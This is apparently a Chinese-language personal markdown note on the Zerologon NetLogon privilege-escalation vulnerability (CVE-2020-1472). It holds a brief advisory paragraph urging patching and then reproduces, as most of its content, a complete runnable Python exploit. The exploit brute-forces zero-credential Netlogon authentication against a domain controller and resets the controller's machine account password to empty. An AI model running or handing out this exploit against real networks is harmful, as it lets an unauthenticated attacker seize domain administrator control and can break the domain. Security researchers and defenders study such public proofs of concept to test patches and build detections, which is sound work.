

# 微软NetLogon权限提升漏洞
`@Time   : 2020/9/15 10:14`
`@Author : 852782749@qq.com`


```
开始编辑～
```

```
近日，监测到国外安全厂商发布了NetLogon权限提升漏洞（CVE-2020-1472）的详细技术分析文章和验证脚本。此漏洞是微软8月份发布安全公告披露的紧急漏洞，漏洞评分10分，漏洞利用后果严重，未经身份认证的攻击者可通过使用 Netlogon 远程协议（MS-NRPC）连接域控制器来利用此漏洞。成功利用此漏洞的攻击者可获得域管理员访问权限。鉴于该漏洞影响较大，建议客户尽快安装软件更新 
```



> exp链接  https://github.com/blackarrowsec/redteam-research
```angular2
#!/usr/bin/env python3
#
# CVE-2020-1472 - Zerologon
#
# Paper:    https://www.secura.com/pathtoimg.php?id=2055
# PoC by:   Pablo Martínez (@xassiz) && Antón Ortigueira (@antuache) from BlackArrow
# Web:      [www.blackarrow.net] - [www.tarlogic.com]
#

from impacket.dcerpc.v5.ndr import NDRCALL, NDRSTRUCT, NDRENUM, NDRUNION, NDRPOINTER, NDRUniConformantArray, \
	NDRUniFixedArray, NDRUniConformantVaryingArray
from impacket.dcerpc.v5.dtypes import WSTR, LPWSTR, DWORD, ULONG, USHORT, PGUID, NTSTATUS, NULL, LONG, UCHAR, PRPC_SID, \
	GUID, RPC_UNICODE_STRING, SECURITY_INFORMATION, LPULONG

from impacket.dcerpc.v5.nrpc import *
from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto

import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call
from struct import pack, unpack

# Give up brute-forcing after this many attempts. If vulnerable, 256 attempts are expected to be neccessary on average.
MAX_ATTEMPTS = 2000 # False negative chance: 0.04%

def fail(msg):
	print(msg, file=sys.stderr)
	print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
	sys.exit(2)

def try_zero_authenticate(dc_handle, dc_ip, target_computer):
	# Connect to the DC's Netlogon service.
	binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
	rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
	rpc_con.connect()
	rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

	# Use an all-zero challenge and credential.
	plaintext = b'\x00' * 8
	ciphertext = b'\x00' * 8

	# Standard flags observed from a Windows 10 client (including AES), with only the sign/seal flag disabled.
	flags = 0x212fffff

	# Send challenge and authentication request.
	nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
	try:
		server_auth = nrpc.hNetrServerAuthenticate3(rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,target_computer + '\x00', ciphertext, flags)

		# It worked!
		assert server_auth['ErrorCode'] == 0
		return rpc_con

	except nrpc.DCERPCSessionError as ex:
	# Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
		if ex.get_error_code() == 0xc0000022:
			return None
		else:
			fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
	except BaseException as ex:
		fail(f'Unexpected error: {ex}.')


def perform_attack(dc_handle, dc_ip, target_computer):
	# Keep authenticating until succesfull. Expected average number of attempts needed: 256.
	print("[!] CVE-2020-1472 PoC by BlackArrow (Tarlogic)\n")
	print('Performing authentication attempts...')
	rpc_con = None
	for attempt in range(0, MAX_ATTEMPTS):
		rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)

		if rpc_con == None:
			print('=', end='', flush=True)
		else:
			break

	if rpc_con:
		print('\nSuccess! DC can be fully compromised by a Zerologon attack. (attempt={})'.format(attempt))
	else:
		print('\nAttack failed. Target is probably patched.')
		sys.exit(1)

	return rpc_con


def get_authenticator(cred=b'\x00' * 8):
	authenticator = nrpc.NETLOGON_AUTHENTICATOR()
	authenticator['Credential'] = cred
	authenticator['Timestamp'] = 0
	return authenticator


class NetrServerPasswordSet2(NDRCALL):
	opnum = 30
	structure = (
		('PrimaryName', PLOGONSRV_HANDLE),
		('AccountName', WSTR),
		('SecureChannelType', NETLOGON_SECURE_CHANNEL_TYPE),
		('ComputerName', WSTR),
		('Authenticator', NETLOGON_AUTHENTICATOR),
		('ClearNewPassword', NL_TRUST_PASSWORD),
	)
	
class NetrServerPasswordSet2Response(NDRCALL):
	structure = (
		('ReturnAuthenticator', NETLOGON_AUTHENTICATOR),
		('ErrorCode', NTSTATUS),
	)


def passwordSet2(rpc_con, dc_name, target_account):
	dce = rpc_con

	if dce is None:
		return

	request = NetrServerPasswordSet2()
	request['PrimaryName'] = dc_name + '\x00'
	request['AccountName'] = target_account + '\x00'
	request['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
	request['ComputerName'] = dc_name + '\x00'
	request['Authenticator'] = get_authenticator()
	
	clear = NL_TRUST_PASSWORD()
	clear['Buffer'] = b'\x00' * 516
	clear['Length'] = '\x00' * 4
	request['ClearNewPassword'] = clear

	try:
		print()
		resp = dce.request(request)
		resp.dump()
		print("[+] CVE-2020-1472 exploited\n")
	except Exception as e:
		raise
	dce.disconnect()


if not (3 <= len(sys.argv) <= 4):
	print('Usage: CVE-2020-1472.py <nbios-name> <computer> <dc-ip>\n')
	print('Performs the Zerologon attack and resets the computer password of the domain controller.')
	print('Note: nbios-name should be the (NetBIOS) computer name of the domain controller.')
	sys.exit(1)
else:
	[_, nbios_name, computer, dc_ip] = sys.argv

	nbios_name = nbios_name.rstrip('$')
	rpc_con = perform_attack('\\\\' + nbios_name, dc_ip, nbios_name)

	passwordSet2(rpc_con, nbios_name, computer)

	rpc_con.disconnect()
```


> 乾坤未定，你我皆是黑马